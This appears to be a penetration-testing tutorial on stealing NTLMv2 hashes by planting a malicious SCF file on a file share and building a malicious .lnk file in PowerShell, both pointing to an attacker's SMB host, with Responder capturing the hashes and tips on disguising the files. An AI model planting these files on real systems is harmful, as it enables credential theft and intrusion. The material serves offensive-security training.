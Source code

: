 **SCF on a File Share**

A Shell Command File (SCF) is used by Windows Explorer to move up and down directories, show the Desktop, etc. An SCF file can be manipulated to have the icon file location point to a specific UNC path and have Windows Explorer start an SMB session when the folder where the .scf file resides is accessed. If we change the IconFile to an SMB server that we control and run a tool such as Responder, Inveigh, or InveighZero, we can often capture NTLMv2 password hashes for any users who browse the share. This can be particularly useful if we gain write access to a file share that looks to be heavily used or even a directory on a user's workstation. We may be able to capture a user's password hash and use the cleartext password to escalate privileges on the target host, within the domain, or further our access/gain access to other resources.

Malicious SCF File

In this example, let's create the following file and name it something like @Inventory.scf (similar to another file in the directory, so it does not appear out of place). We put an @ at the start of the file name to appear at the top of the directory to ensure it is seen and executed by Windows Explorer as soon as the user accesses the share. Here we put in our tun0 IP address and any fake share name and .ico file name.
````
# Create Malicious SCF File

[Shell]
Command=2
IconFile=\\<Our_IP>\share\legit.ico
[Taskbar]
Command=ToggleDesktop

# Starting Responder
$ sudo responder -wrf -v -I tun0
````

**Malicious .lnk File**

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious .lnk file. We can use various tools to generate a malicious .lnk file, such as Lnkbomb, as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:
````
# Generating a Malicious .lnk File

$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<Our_IP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
````
Change the directory where the lnk will be saved to a directory that the user will access and that you have write permission for.
- https://github.com/dievus/lnkbomb
